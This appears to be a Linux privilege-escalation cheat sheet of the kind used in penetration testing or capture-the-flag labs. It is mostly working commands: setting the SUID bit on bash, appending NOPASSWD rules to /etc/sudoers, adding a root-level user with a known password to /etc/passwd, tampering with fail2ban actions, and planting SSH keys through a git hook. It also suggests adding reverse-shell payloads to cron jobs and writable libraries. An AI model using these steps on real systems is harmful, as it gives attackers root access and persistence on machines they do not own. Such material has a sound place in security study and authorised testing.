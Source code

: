 ### Cron job abuse/general priv esc techniques
``` bash
# For cron job, there are many things you can use as a payload
# Modify or create the script
#1. Add sticky bit to the bash file
chmod u+s /bin/bash
#or 
cp /bin/bash /tmp/bash; chmod u+s /tmp/bash
2. Add sudoers
echo "CURRENT_USER ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers 
#3. Call reverse shell
#add reverse shell payload to the script
#4. add new privileged user to /etc/passwd
#Create a new user password with openssl
openssl passwd 123
#append the new user to /etc/passwd in such format 
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# if there is a $ in the hash, you might have to escape it with \
```
### Modifiable service script exploit
If a service script (.service file or the script used in `ExecStart`) is writable,
you can replace the `ExecStart` part with your PE payload.
Or replace the content of the script which called by the `ExecStart`.
The payload and methodology can be any of the general priv esc tehcniques

### Library Hijack
[Python lib hijack](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

Just add the reverse shell python code at the end of the writable library py file


### fail2ban
```bash
# https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49
# modify /etc/fail2ban/action.d/iptables-multiport.conf
# replace the actionban = PAYLOAD #could be anything as long as it helps you PE(reverse shell, suid...)
# could use a script to help you
#!/bin/bash
cp ./iptables-multiport.conf.bak ./iptables-multiport.conf
mv ./iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```

### webmin
if you have webmin admin panel login, go into the admin panel
create a new user with any username but User ID 0 & group id 0

### git commit exploit
```
# edit .git/hooks/pre-commit
# Or may use a rev shell command
#!/bin/sh
mkdir -p /home/user/.ssh
print "\n${SSH_PUBLIC_KEY}" >> /home/user/.ssh/authorized_keys
chmod 600 /home/user/.ssh/authorized_keys
```
Then add a file
```
git --work-tree /etc add /etc/passwd
```
Then commit to exploit
